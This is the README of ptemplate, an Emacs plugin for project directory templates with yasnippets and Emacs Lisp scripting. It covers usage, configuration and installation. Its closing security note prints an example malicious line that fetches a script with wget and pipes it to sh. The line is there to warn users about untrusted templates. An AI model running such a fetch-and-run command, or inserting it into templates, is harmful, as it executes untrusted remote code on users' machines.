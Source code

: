 # About
Projects contain a lot of boilerplate like build system files, cask files,
license files, ..., making starting new projects more work than it needs to be.
The ptemplate Emacs plugin solves that problem: it lets you define directory
templates that can contain various files and directories, including yasnippets.
Such templates ("ptemplates") can even be made intelligent using Emacs Lisp.

# Usage
## Creating new projects
For helm users, run `ptemplate-expand-template`. It will then prompt you to
select a template followed by a project directory. The templates are categorized
in types, which are either mapped to helm sections or to suffixes appended to
template names (see the "Configuration" section below).

# Writing templates
All templates are categorized into types, which are associated with workspace
directories using the variable `ptemplate-workspace-alist`. You could, for
example, have types corresponding to languages (so a Java type, a C++ type,
...). The corresponding workspace is used as the default folder in the project
directory selection. Templates are stored in `ptemplate-template-dirs`, a list
of directories containing templates, all of which must be categorized under type
directories as described above.

## Anatomy of a template
Each template has a nested directory structure, consisting of any number of
files and directories, which is replicated at the expansion target. Some files
(depending on their suffix) are expanded specially, and their extension is not
replicated:

### \*.yas
Files ending in .yas are yasnippets, which are expanded in a so-called snippet
chain: a list of all such files is gathered, after which a single buffer pops up
where the user can expand the first snippet like any regular yasnippet (TAB,
...). The following snippets can be visited similarly by pressing `C-c C-c`, at
which point the buffer is killed and written to the target. The following
keybindings are available in a snippet chain buffer:

#### `C-c C-c`: `ptemplate-snippet-chain-continue`
Finish expanding the current yasnippet by writing the current snippet buffer to
the correct destination and killing its buffer.

#### `C-C C-l`: `ptemplate-snippet-chain-later`
Mark the current snippet buffer to be expanded later and continue like
`ptemplate-snippet-chain-continue`. Unlike with `ptemplate-snippet-chain-next`,
the snippet buffer is not killed. You can use this keybinding to procrastinate
expansion of the current snippet and look at the others meantime.

The keybindings can be modified by customizing
`ptemplate-snippet-chain-mode-map`.

### \*.keep
.keep files are copied like normal files, but without the .keep extension. Name
files this way if you need to override ptemplate's special file handling for
some files (e.g. if you are writing templates for ptemplate templates).

### \*.nocopy
Such files are not copied at all. Empty directories cannot be added to git. This
way, an empty .gitkeep.nocopy file can be added in empty directories to make
them part of the template.

### .ptemplate.el
As stated in "About", ptemplate allows templates to be scripted with Emacs Lisp.
For this, you can add .ptemplate.el in the template's root directory, which is
evaluated before expansion. This file is not copied. Even though arbitrary lisp
code, executed in the main Emacs instance, can be contained within it, templates
should make use of the `ptemplate!` macro. It takes any number of keyword blocks
(akin to `use-package`) which are then expanded to the correct lisp code:

- :init FORMs to run before expansion
- :before-snippets FORMs to run before expanding yasnippets
- :after-copy FORMs to run after all files have been copied
- :finalize FORMs to run after expansion finishes.
- :ignore Regular expressions of filenames to ignore or paths to ignore.
- :subdir Make some template directories appear as if they were in its root.

For details, see `M-x describe-function ptemplate!`.

Some other useful functions include:
- `ptemplate-map`: map one template file to some file in the target
- `ptemplate-remap`: remap template files
- `ptemplate-remap-rec`: recursively remap template directories
- `ptemplate-copy-target`: copy files from one target location to another
- `ptemplate-include`: add all files in DIRS as if they were part of the
  template, files mapped previously taking precedence
- `ptemplate-include-override`: like the above, but files in DIRS take
  precedence
- `ptemplate-target`: make a path from expansion target + dir
- `ptemplate-source`: make a path from template directory + dir

# Configuration
## ptemplate-template-prompt-function
This variable specifies which function to use for prompting templates. It can be
a custom function, or one of the builtin ones (see its docstring for details).
By default it prompts templates using completing-read, and their types appended
in parentheses. There is also a builtin function available to use separate helm
sections (sources) instead:

```emacs-lisp
(setq ptemplate-prompt-template-completing-read
      #'ptemplate-prompt-template-helm)
```

## ptemplate-workspace-alist
Maps template types to workspaces. When a new project is created, the type is
looked up in this alist and the directory mapped is suggested as the default
target, in which another directory may be specified for expansion. If the type
is not associated, use `ptemplate-default-workspace`, or the current buffer's
`default-directory` if even that is nil.

## ptemplate-default-workspace
See above.

## ptemplate-template-dirs
List of directories in which templates are looked up. Each directory specified
shall consist of a number of subdirectories (corresponding to types) each of
which have separate subdirectories for templates (template names).

# Installation
This package is not yet on `MELPA`. However, you can install it using any
package manager/fetcher that can handle GitHub repositories:

## `quelpa` + `use-package`
``` emacs-lisp
(quelpa '(ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
(use-package ptemplate)
```

## `quelpa-use-package`
``` emacs-lisp
(use-package ptemplate
  :quelpa (ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
```

## `straight-use-package`
``` emacs-lisp
(straight-use-package
 '(ptemplate :type git :host github :repo "nbfalcon/ptemplate"))
```

# Security note
Due to the smart expansion feature, and due to allowing yasnippets in templates,
ptemplate is *not* secure. You should use only trusted templates. A malicious
template could have a snippet like the following in its .ptemplate.el or in a
\`\` block of one of its yasnippets:

```emacs-lisp
(shell-command "wget $SH_MALWARE_URL | sh")
```

At that point, all security would be lost: the malicious shell script could nuke
your home directory, implant a .profile-based rootkit, modify user-owned
software, .... The possibilities are endless.
